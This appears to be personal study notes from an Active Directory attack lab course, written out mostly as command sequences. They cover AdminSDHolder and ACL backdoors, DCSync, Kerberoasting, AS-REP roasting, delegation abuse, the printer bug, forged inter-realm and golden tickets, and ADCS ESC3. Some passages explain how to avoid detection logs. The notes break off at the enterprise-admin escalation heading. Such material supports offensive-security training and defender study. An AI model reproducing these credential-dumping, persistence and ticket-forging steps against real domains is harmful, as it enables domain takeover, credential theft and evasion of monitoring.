### AdminSDHolder - using ACLs (no 4662 record, so not a noisy attack :smile:)

**METHODOLOGY --> Basically, We are our own user to the AdminSDHolder group, so it will be added to a all the protected groups hourly!**

* Resides in the System container of a domain and used to control the permissions - using an ACL - for certain built-in privileged groups ( called Protected Groups).
* Security Descriptor Propagator (SDPROP) runs every hour and compares the ACL of protected groups and members with the ACL of AdminSDHolder and any differences are overwritten on the object ACL.

Protected Groups -->

.png>)

* Well known abuse of some of the Protected Groups - All of the below can log on locally to DC

.png>)

* With DA privileges (Full Control/Write permissions) on the AdminSDHolder object, it can be used as a backdoor/persistence mechanism by adding a user with Full Permissions (or other interesting permissions) to the AdminSDHolder object.
* In 60 minutes (when SDPROP runs), the user will be added with Full Control to the AC of groups like Domain Admins without actually being a member of it

Add FullControl permissions for a user to the AdminSDHolder using PowerView as DA -

```
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dcdollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 - Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

Using ActiveDirectory Module and RACE toolkit - ([https://github.com/samratashok/RACE](https://github.com/samratashok/RACE))

```
Set-DCPermissions -Method AdminSDHolder -SAMAccountName student1 - Right GenericAll -DistinguishedName'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Verbose
```

Other interesting permissions (ResetPassword, WriteMembers) for a user to the AdminSDHolder -

```
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dcdollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

Run SDProp manually using Invoke-SDPropagator.ps1 from Tools directory - (this only runs every hour that applies everything from AdminSDHolder to all the protected group, so not waiting for an hour to compete we will run it manually.)

```
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```

For pre-Server 2008 machines -

```
Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

**NOW CHECKING THE SUCCESS! -->**

Check the Domain Admins permission - PowerView as normal user -

```
Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student1"}
```

Using ActiveDirectory Module -

```
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local').Access | ?{$_.IdentityReference -match 'student1'} 
```

**NOW ABUSING OUR PERSISTED RIGHTS! -->**

Abusing FullControl using PowerView -

```
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose
```

Using ActiveDirectory Module -

```
Add-ADGroupMember -Identity 'Domain Admins' -Members testda
```

Abusing ResetPassword using PowerView -

```
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

Using ActiveDirectory Module -

```
Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

### Rights Abuse - using ACLs (dangerous, MDI sensor goes nuts! when you do DCSync using this)

#### We do, Changes to Domain Object ACL, which gives 4662 logs with a message (write DACL perform on the object) which will be visible in Security Logs!

* There are even more interesting ACLs which can be abused.
* For example, with DA privileges, the ACL for the domain root can be modified to provide useful rights like FullControl or the ability to run "DCSync".

Add FullControl rights -&#x20;

```
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

Using ActiveDirectory Module and RACE -

```
Set-ADACL -SamAccountName studentuser1 -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Right GenericAll -Verbose
```

Add rights for DCSync -

```
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

Execute DCSync -

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

 or
 
 C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```

**BONUS --> dir \\\dcorp-dc\c$ (check command execution on DA)**

### Security Descriptors - using ACLs

* It is possible to modify Security Descriptors (security information like Owner, primary group, DACL and SACL) of multiple remote access methods (securable objects) to allow access to non-admin users.
* Administrative privileges are required for this.
* **It works as a very useful and impactful backdoor mechanism.**

**Security Descriptor Definition Language (SDDL)** defines the format which is used to describe a security descriptor. **SDDL** uses ACE strings for DACL and SACL -

```
ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
```

**ALL WE NEED TO CHANGE ABOVE IS THE account\_sid WITH THE USER THAT WE CONTROL.**

ACE for built-in administrators for WMI namespaces -

```
A;CI;CCDCLCSWRPWPRCWD;;;SID
```

#### Security Descriptors - WMI&#x20;

ACLs can be modified to allow non-admin users access to securable objects. Using the RACE toolkit -

```
C:\AD\Tools\RACE-master\RACE.ps1 (from - https://github.com/samratashok/RACE)
```

* On local machine for student1 -

```
Set-RemoteWMI -SamAccountName student1 -Verbose
```

* On remote machine for student1 without explicit credentials -

```
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
```

* On remote machine with explicit credentials. Only root\cimv2 and nested namespaces -

```
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -Credential Administrator -namespace 'root\cimv2' -Verbose
```

* On remote machine remove permissions -

```
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc-namespace 'root\cimv2' -Remove -Verbose
```

#### Scurity Descriptors - Powershell Remoting

Using the RACE toolkit - PS Remoting backdoor not stable after August 2020 patches.

* On local machine for student1 -

```
Set-RemotePSRemoting -SamAccountName student1 -Verbose
```

* On remote machine for student1 without credentials -

```
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Verbose
```

* On remote machine, remove the permissions -

```
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Remove
```

#### Security Descriptors - Remote Registry&#x20;

* Using RACE or DAMP, with admin privs on remote machine

```
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student1 -Verbose
```

* As student1, retrieve machine account hash -

```
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose
```

**NOTE - Here If we got a MachineAccountHash we can implement a silver ticket! (as MachineAccount is a service so TGS it is) \[RPCSS service gives us the rights to interact with DC using WMI]**

* Retrieve local account hash -

```
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose
```

* Retrieve domain cached credentials -

```
Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbose
```

```
BONUS COMMAND! (WMI) --> gwmi -Class win32_operatingsystem -COmputerName dcorp-dc
```

## 5. Privilege Escalation -

### Kerberosting - (3 types | classic is most effective)

* **Brute-forcing the service tickets offline for the cleartext passwords of the target application.**
* Offline cracking of service account passwords.
* The Kerberos session ticket (TGS) has a server portion which is encrypted with the password hash of service account. This makes it possible to request a ticket and do offline password attack.
* Because (non-machine) service account passwords are not frequently changed, this has become a very popular attack!

**We will use only those user acocunts that are used to run services.**&#x20;

**NOTE --> \[users whose SPN is not $null is treated as a service account by the KDC] It doesn't matter if there is a service running or not, you can ask for a service ticket for those accounts.**

Find user accounts used as Service accounts -

* ActiveDirectory module -

```
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

* PowerView -

```
Get-DomainUser -SPN
```

* Use Rubeus to list Kerberoast stats -

```
Rubeus.exe kerberoast /stats
```

* Use Rubeus to request a TGS -

```
Rubeus.exe kerberoast /user:svcadmin /simple
```

* To avoid detections based on Encryption Downgrade for Kerberos EType (used by likes of MDI - 0x17 stands for rc4-hmac), look for Kerberoastable accounts that only support RC4\_HMAC -

```
Rubeus.exe kerberoast /stats /rc4opsec
Rubeus.exe kerberoast /user:svcadmin /simple /rc4opsec
```

* Kerberoast all possible accounts -

```
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
```

* Crack ticket using John the Ripper -

```
john.exe --wordlist=C:\AD\Tools\kerberoast\10kworst-pass.txt C:\AD\Tools\hashes.txt
```

### Targeted Kerberosting - AS-REPs

* If a user's UserAccountControl settings have "Do not require Kerberos preauthentication" enabled i.e. Kerberos preauth is disabled, it is possible to grab user's crackable AS-REP and brute-force it offline.
* With sufficient rights (GenericWrite or GenericAll), Kerberos preauth can be forced disabled as well.

Enumerating accounts with Kerberos Preauth disabled -

* Using PowerView -

```
Get-DomainUser -PreauthNotRequired -Verbose
```

* Using ActiveDirectory module -

```
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```

**OR :- Force disable Kerberos Preauth** -

* Let's enumerate the permissions for RDPUsers on ACLs using PowerView -

```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} -Verbose
Get-DomainUser -PreauthNotRequired -Verbose
```

Request encrypted AS-REP for offline brute-force.

Let's use ASREPRoast -

```
Get-ASREPHash -UserName VPN1user -Verbose
```

To enumerate all users with Kerberos preauth disabled and request a hash -

```
Invoke-ASREPRoast -Verbose
```

We can use John The Ripper to brute-force the hashes offline -

```
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worstpass.txt C:\AD\Tools\asrephashes.txt
```

### Targeted Kerberosting - Set SPN

* With enough rights (GenericAll/GenericWrite), a target user's SPN can be set to anything (unique in the domain).
* We can then request a TGS without special privileges. The TGS can then be "Kerberoasted".

Enumerate the permissions for RDPUsers on ACLs using PowerView -

```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```

Using Powerview, see if the user already has a SPN -

```
Get-DomainUser -Identity supportuser | select serviceprincipalname
```

Using ActiveDirectory module -

```
Get-ADUser -Identity supportuser -Properties ServicePrincipalName | select ServicePrincipalName
```

Set a SPN for the user (must be unique for the domain) -

```
Set-DomainObject -Identity support1user -Set @{serviceprincipalname=‘dcorp/whatever1'}
```

Using ActiveDirectory module -

```
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add=‘dcorp/whatever1'}
```

Finally, Kerberoast the user -->

```
Rubeus.exe kerberoast /outfile:targetedhashes.txt
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worstpass.txt C:\AD\Tools\targetedhashes.txt
```

### Kerberos Delegation -

* Kerberos Delegation allows to "reuse the end-user credentials to access resources hosted on a different server".
* This is typically useful in multi-tier service or applications where Kerberos Double Hop is required.
* For example, users authenticates to a web server and web server makes requests to a database server. The web server can request access to resources (all or some resources depending on the type of delegation) on the database server as the user and not as the web server's service account.
* Please note that, for the above example, the service account for web service must be trusted for delegation to be able to make requests as a user.

**Process -->**

1. A user provides credentials to the Domain Controller.
2. The DC returns a TGT.
3. The user requests a TGS for the web service on Web Server.
4. The DC provides a TGS.
5. The user sends the TGT and TGS to the web server.
6. The web server service account use the user's TGT to request a TGS for the database server from the DC.
7. The web server service account connects to the database server as the user.

.png>)

There are two types of Kerberos Delegation -->

* **General/Basic or Unconstrained Delegation** which allows the first hop server (web server in our example) to request access to any service on any computer in the domain.
* **Constrained Delegation** which allows the first hop server (web server in our example) to request access only to specified services on specified computers. If the user is not using Kerberos authentication to authenticate to the first hop server, Windows offers Protocol Transition to transition the request to Kerberos.

**NOTE - In both types of delegations, a mechanism is required to impersonate the incoming user and authenticate to the second hop server (Database server in our example) as the user.**

### Unconstrained Delegation -

* When set for a particular service account, unconstrained delegation allows delegation to any service to any resource on the domain as a user.
* When unconstrained delegation is enabled, the DC places user's TGT inside TGS (Step 4 in the previous diagram). When presented to the server with unconstrained delegation, the TGT is extracted from TGS and stored in LSASS. This way the server can reuse the user's TGT to access any other resource as the user.
* This could be used to escalate privileges in case we can compromise the computer with unconstrained delegation and a Domain Admin connects to that machine.

Discover domain computers which have unconstrained delegation enabled using PowerView -

```
Get-DomainComputer -UnConstrained
```

Using ActiveDirectory module -

```
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

Now, Compromise the server(s) where Unconstrained delegation is enabled.

\--> We must trick or wait for a domain admin to connect a service on appsrv.

Now, if the command is run again -

```
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

The DA token could be reused -

```
Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgtDOLLARCORP.MONEYCORP.LOCAL.kirbi"' 
```

### Unconstrained Delegation - Printer Bug

* How do we trick a high privilege user to connect to a machine with Unconstrained Delegation? The Printer Bug!
* A feature of MS-RPRN which allows any domain user (Authenticated User) can force any machine (running the Spooler service) to connect to second a machine of the domain user's choice.
* We can force the dcorp-dc to connect to dcorp-appsrv by abusing the Printer bug.
* We can capture the TGT of dcorp-dc$ by using Rubeus on dcorp-appsrv -

```
Rubeus.exe monitor /interval:5 /nowrap
```

* And after that run MS-RPRN.exe&#x20;
* (https://github.com/leechristensen/SpoolSample) on the student VM -

```
MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
```

**BONUS --> If you are attacking from a Linux machine, check out Coercer (https://github.com/p0dalirius/Coercer) for other MS protocols that can be abused for coercion.**

* Copy the base64 encoded TGT, remove extra spaces (if any) and use it on the student VM -

```
Rubeus.exe ptt /tikcet:
```

* Once the ticket is injected, run DCSync -

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

### Constrained Delegation - (request it out of a thin air, no need to DA privs)

* Constrained Delegation when enabled on a service account, allows access only to specified services on specified computers as a user.
* A typical scenario where constrained delegation is used - A user authenticates to a web service without using Kerberos and the web service makes requests to a database server to fetch results based on the user's authorization.
* To impersonate the user, Service for User (S4U) extension is used which provides two extensions -
  * Service for User to Self (S4U2self) - Allows a service to obtain a forwardable TGS to itself on behalf of a user.
  * Service for User to Proxy (S4U2proxy) - Allows a service to obtain a TGS to a second service on behalf of a user.
* To impersonate the user, Service for User (S4U) extension is used which provides two extensions -
  * Service for User to Self (S4U2self) - Allows a service to obtain a forwardable TGS to itself on behalf of a user with just the user principal name without supplying a password. The service account must have the TRUSTED\_TO\_AUTHENTICATE\_FOR\_DELEGATION - T2A4D UserAccountControl attribute.
  * Service for User to Proxy (S4U2proxy) - Allows a service to obtain a TGS to a second service on behalf of a user. Which second service? This is controlled by msDS-AllowedToDelegateTo attribute. This attribute contains a list of SPNs to which the user tokens can be forwarded.

### Constrained Delegation with Protocol Transition -

1. A user - Joe, authenticates to the web service (running with service account websvc) using a non-Kerberos compatible authentication mechanism.
2. The web service requests a ticket from the Key Distribution Center (KDC) for Joe's account without supplying a password, as the websvc account.
3. The KDC checks the websvc userAccountControl value for the TRUSTED\_TO\_AUTHENTICATE\_FOR\_DELEGATION attribute, and that Joe's account is not blocked for delegation. If OK it returns a forwardable ticket for Joe's account (S4U2Self).
4. The service then passes this ticket back to the KDC and requests a service ticket for the CIFS/dcorpmssql.dollarcorp.moneycorp.local service.
5. The KDC checks the msDS-AllowedToDelegateTo field on the websvc account. If the service is listed it will return a service ticket for dcorp-mssql (S4U2Proxy).
6. The web service can now authenticate to the CIFS on dcorpmssql as Joe using the supplied TGS.

.png>)

**NOTE -** To abuse constrained delegation in above scenario, we need to have access to the websvc account. If we have access to that account, it is possible to access the services listed in msDS-AllowedToDelegateTo of the websvc account as ANY user.

* Enumerate users and computers with constrained delegation enabled -

```
#PowerView -
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```

```
#ActiveDirectory module -
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

#### Constrained Delegation using Kekeo -

**Abusing with Kekeo -->**

* Either plaintext password or NTLM hash/AES keys is required. We already have access to websvc's hash from dcorp-adminsrv
* Using asktgt from Kekeo, we request a TGT (steps 2 & 3 in the diagram) -

```
kekeo# tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:cc098f204c5887eaa8253e7c2749156f
```

* Using s4u from Kekeo, we request a TGS (steps 4 & 5) -

```
tgs::s4u /tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorpmssql.dollarcorp.moneycorp.LOCAL
```

* Using mimikatz, inject the ticket -

```
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_cifs~dcorpmssql.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL.kirbi"'
ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```

#### Constrained Delegation using Rubeus-

**OR Abusing using Rubeus.exe -->**

* We can use the following command (We are requesting a TGT and TGS in a single command) -

```
Rubeus.exe s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL /ptt
ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```

* Another interesting issue in Kerberos is that the delegation occurs not only for the specified service but for any service running under the same account. There is no validation for the SPN specified.
* This is huge as it allows access to many interesting services when the delegation may be for a non-intrusive service!

Either plaintext password or NTLM hash is required. If we have access to dcorpadminsrv hash

Using asktgt from Kekeo, we request a TGT -

```
tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /rc4:1fadb1b13edbc5a61cbdc389e6f34c67
```

Using s4u from Kekeo\_one (no SNAME validation) -

```
tgs::s4u /tgt:TGT_dcorpadminsrv$@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:time/dcorpdc.dollarcorp.moneycorp.LOCAL|ldap/dcorpdc.dollarcorp.moneycorp.LOCAL
```

Using mimikatz -

```
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_ldap~dcorpdc.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL_ALT.kirbi"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"' 
```

We can use the following command (We are requesting a TGT and TGS in a single command) -

```
Rubeus.exe s4u /user:dcorp-adminsrv$ /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b445 /impersonateuser:Administrator /msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt
```

After injection, we can run DCSync -

```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit" 
```

### Resource based Constrained Delegation -

* This moves delegation authority to the resource/service administrator.
* Instead of SPNs on msDs-AllowedToDelegatTo on the front-end service like web service, access in this case is controlled by security descriptor of msDS-AllowedToActOnBehalfOfOtherIdentity (visible as PrincipalsAllowedToDelegateToAccount) on the resource/service like SQL Server service.
* That is, the resource/service administrator can configure this delegation whereas for other types, SeEnableDelegation privileges are required which are, by default, available only to Domain Admins.

To abuse RBCD in the most effective form, we just need two privileges. -->

1. Write permissions over the target service or object to configure msDSAllowedToActOnBehalfOfOtherIdentity.
2. Control over an object which has SPN configured (like admin access to a domain joined machine or ability to join a machine to domain - ms-DSMachineAccountQuota is 10 for all domain users)

We already have admin privileges on student VMs that are domain joined machines.

Enumeration would show that the user **'ciadmin'** has Write permissions over the **dcorp-mgmt** machine!

```
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}
```

Using the ActiveDirectory module, configure RBCD on dcorp-mgmt for student machines -->

```
$comps = 'dcorp-student1$','dcorp-student2$'
Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $comps

#PowerView -
Set-DomainRBCD -Identity dcorp-mgmt -DelegateFrom 'dcorp-student1$' 
Get-DomainRBCD
```

Now, let's get the privileges of dcorp-studentx$ by extracting its AES keys

```
Invoke-Mimikatz -Command '"sekurlsa::ekeys"' 
```

Use the AES key of dcorp-studentx$ with Rubeus and access dcorpmgmt as ANY user we want -->

```
Rubeus.exe s4u /user:dcorp-student1$ /aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d83b9e6b7fc7897c2 /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt

winrs -r:dcorp-mgmt cmd.exe
```

**BONUS! --> Well known SID for System account - S-1-5-18 (remember)**

### Child to Parent (Across Trust)

* sIDHistory is a user attribute designed for scenarios where a user is moved from one domain to another. When a user's domain is changed, they get a new SID and the old SID is added to sIDHistory.
* sIDHistory can be abused in two ways of escalating privileges within a forest -
  * krbtgt hash of the child
  * Trust tickets

**So, what is required to forge trust tickets is, obviously, the trust key. Look for \[In] trust key from child to parent.**

```
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc
or
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
or
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

We can forge and inter-realm TGT -

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /rc4:e9ab2e57f6397c19b62476e98e9521ac /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit" 
```

.png>)

**Abuse with Kekeo -->**

* Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket

```
.\asktgs.exe C:\AD\Tools\trust_tkt.kirbi CIFS/mcorpdc.moneycorp.local
```

* Use the TGS to access the targeted service

```
.\kirbikator.exe lsa .\CIFS.mcorp-dc.moneycorp.local.kirbi
ls \\mcorp-dc.moneycorp.local\c$
```

* Tickets for other services (like HOST and RPCSS for WMI, HTTP for PowerShell Remoting and WinRM) can be created as well.

**Abuse with Rubeus-**&#x20;

* Note that we are still using the TGT forged initially

```
Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:mcorpdc.moneycorp.local /ptt
ls \\mcorp-dc.moneycorp.local\c$ 
```

<pre><code><strong>BONUS! wmi command example --> gwmi -Class win32_operatingsystem -ComputerName mcorp-dc
</strong></code></pre>

### Child to parent using krbtgt hash -

* We will abuse sIDhistory once again

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"
```

* In the above command, the mimkatz option "/sids" is forcefully setting the sIDHistory for the Enterprise Admin group for dollarcorp.moneycorp.local that is the Forest Enterprise Admin Group.

**On any machine of the current domain - (the below commad will be suspicous amd will be detected if anyone was watching over the logs | very noisy)**

```
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'
ls \\mcorp-dc.moneycorp.local.kirbi\c$
gwmi -class win32_operatingsystem -ComputerName mcorpdc.moneycorp.local
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```

**BUT, WE CAN AVOID DETECTION USING THE BELOW METHOD -->**

Avoid suspicious logs by using Domain Controllers group -

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:dcorp-dc$ /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /groups:516 /sids:S-1-5-21-280534878-1496970234-700767426-516,S-1-5-9 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"

C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit" [DCSync because two DCs are allowd to sync!, so no detection!]
```

* **S-1-5-21-2578538781-2508153159-3419410681-516 - Domain Controllers**
* **S-1-5-9 - Enterprise Domain Controllers**

### Across Forest using Trust Tickets -

* Once again, we require the trust key for the inter-forest trust.

```
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Or
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

* An inter-forest TGT can be forged.

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /rc4:2756bdf7dd8ba8e9c40fe60f654115a0 /service:krbtgt /target:eurocorp.local /ticket:C:\AD\Tools\trust_forest_tkt.kirbi" "exit" 
```

**Abuse with Kekeo -->**

* Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket.

```
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi CIFS/eurocorp-dc.eurocorp.local
```

* Use the TGS to access the targeted service.

```
.\kirbikator.exe lsa .\CIFS.eurocorp-dc.eurocorp.local.kirbi
ls \\eurocorp-dc.eurocorp.local\SharedwithDCorp\
```

* Tickets for other services (like HOST and RPCSS for WMI, HTTP for PowerShell Remoting and WinRM) can be created as well.

**Abuse with Rubeus -->**

* Using the same TGT which we forged earlier

```
Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorpdc.eurocorp.local /ptt

ls \\eurocorp-dc.eurocorp.local\SharedwithDCorp\
```

.png>)

### ADCS - Across Forest Trust

**NOTE - check out my talk at Null Meet-up Bangalore on ADCS Explotation. (**[**https://github.com/Abhinandan-Khurana/Null-Bangalore-Meetup-July-15-2023**](https://github.com/Abhinandan-Khurana/Null-Bangalore-Meetup-July-15-2023)**)**

* Active Directory Certificate Services (AD CS) enables use of Public Key Infrastructure (PKI) in active directory forest.
* AD CS helps in authenticating users and machines, encrypting and signing documents, filesystem, emails and more.
* "AD CS is the Server Role that allows you to build a public key infrastructure (PKI) and provide public key cryptography, digital certificates, and digital signature capabilities for your organization."
* CA - The certification authority that issues certificates. The server with AD CS role (DC or separate) is the CA.
* Certificate - Issued to a user or machine and can be used for authentication, encryption, signing etc.
* CSR - Certificate Signing Request made by a client to the CA to request a certificate.
* Certificate Template - Defines settings for a certificate. Contains information like - enrolment permissions, EKUs, expiry etc.
* EKU OIDs - Extended Key Usages Object Identifiers. These dictate the use of a certificate template (Client authentication, Smart Card Logon, SubCA etc.)



There are various ways of abusing ADCS! (See the link to "Certified PreOwned" paper in slide notes) \[[https://posts.specterops.io/certified-pre-owned-d95910965cd2](https://posts.specterops.io/certified-pre-owned-d95910965cd2)]

* Extract user and machine certificates
* Use certificates to retrieve NTLM hash
* User and machine level persistence
* Escalation to Domain Admin and Enterprise Admin
* Domain persistence

All of the techniques are not covered here! (dig deep in the papaer to get more insight on ADCS Exploitation)

.png>)

.png>)

We can use the **Certify tool** (https://github.com/GhostPack/Certify) to enumerate (and for other attacks) AD CS in the target forest -

```
Certify.exe cas
```

Enumerate the templates -

```
Certify.exe find
```

Enumerate vulnerable templates -

```
Certify.exe find /vulnerable
```

In moneycorp, there are multiple misconfigurations in AD CS.

Common requirements/misconfigurations for all the Escalations that we have in the lab (ESC1, ESC3 and ESC6)

* CA grants normal/low-privileged users enrollment rights
* Manager approval is disabled
* Authorization signatures are not required
* The target template grants normal/low-privileged users enrollment rights

The template "SmartCardEnrollment-Agent" allows Domain users to enroll and has "Certificate Request Agent" EKU.

```
Certify.exe find /vulnerable
```

### ADCS - ESC3

The template "SmartCardEnrollment-Users" has an Application Policy Issuance Requirement of Certificate Request Agent and has an EKU that allows for domain authentication. Search for domain authentication EKU -

```
Certify.exe find /json /outfile:C:\AD\Tools\file.json ((Get-Content C:\AD\Tools\file.json | ConvertFromJson).CertificateTemplates | ? {$_.ExtendedKeyUsage -contains "1.3.6.1.5.5.7.3.2"}) | fl *
```

**Escalation to DA -**

* We can now request a certificate for Certificate Request Agent from "SmartCardEnrollmentAgent" template.

```
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Agent
```

* Convert from cert.pem to pfx (esc3agent.pfx below) and use it to request a certificate on behalf of DA using the "SmartCardEnrollment-Users" template.

```
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:dcorp\administrator /enrollcert:esc3agent.pfx /enrollcertpw:SecretPass@123
```

• Convert from cert.pem to pfx (esc3user-DA.pfx below), request DA TGT and inject it -

```
Rubeus.exe asktgt /user:administrator /certificate:esc3user-DA.pfx /password:SecretPass@123 /ptt
```

**Escalation to EA -**

